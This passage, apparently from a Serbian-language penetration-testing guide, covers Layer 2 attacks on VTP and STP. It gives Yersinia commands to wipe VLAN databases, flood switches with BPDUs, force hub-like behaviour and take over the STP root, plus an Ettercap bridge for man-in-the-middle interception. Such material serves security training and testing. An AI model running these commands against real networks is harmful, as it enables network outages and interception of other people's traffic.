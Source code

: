 Ranjivosti VTP-a se mogu iskoristiti isključivo putem trunk portova, jer se VTP obaveštenja kruže samo kroz njih. Scenariji napada nakon DTP-a mogu se usmeriti ka VTP-u. Alati poput Yersinie mogu olakšati VTP napade, sa ciljem brisanja baze podataka VLAN-ova i efektivnog ometanja mreže.

Napomena: Ova diskusija se odnosi na VTP verziju 1 (VTPv1).

````bash
%% yersinia -G # Launch Yersinia in graphical mode ```
````

U grafičkom režimu Yersinie, izaberite opciju brisanja svih VTP VLAN-ova kako biste očistili VLAN bazu podataka.

### Napadi na STP

**Ako ne možete snimati BPDU okvire na svojim interfejsima, malo je verovatno da ćete uspeti u napadu na STP.**

#### **STP BPDU DoS**

Slanjem velikog broja BPDU TCP (Topology Change Notification) ili Conf (BPDU koji se šalju prilikom kreiranja topologije), preopterećuju se prekidači i prestaju pravilno raditi.

```bash
yersinia stp -attack 2
yersinia stp -attack 3
#Use -M to disable MAC spoofing
```

#### **STP TCP Napad**

Kada se TCP paket pošalje, CAM tabela prekidača će biti obrisana za 15 sekundi. Zatim, ako neprekidno šaljete ovu vrstu paketa, CAM tabela će se neprekidno restartovati (svakih 15 sekundi) i kada se restartuje, prekidač se ponaša kao hub.

```bash
yersinia stp -attack 1 #Will send 1 TCP packet and the switch should restore the CAM in 15 seconds
yersinia stp -attack 0 #Will send 1 CONF packet, nothing else will happen
```

#### **STP Root Napad**

Napadač simulira ponašanje prekidača kako bi postao STP koren mreže. Zatim će više podataka prolaziti kroz njega. Ovo je interesantno kada ste povezani sa dva različita prekidača.\
Ovo se postiže slanjem BPDUs CONF paketa koji govore da je vrednost **prioriteta** manja od stvarnog prioriteta trenutnog korenskog prekidača.

```bash
yersinia stp -attack 4 #Behaves like the root switch
yersinia stp -attack 5 #This will make the device behaves as a switch but will not be root
```

**Ako napadač bude povezan sa 2 prekidača, može postati koren nove mreže i sav saobraćaj između tih prekidača će prolaziti kroz njega** (izvršiće se napad MITM).

```bash
yersinia stp -attack 6 #This will cause a DoS as the layer 2 packets wont be forwarded. You can use Ettercap to forward those packets "Sniff" --> "Bridged sniffing"
ettercap -T -i eth1 -B eth2 -q #Set a bridge between 2 interfaces to forwardpackages
```
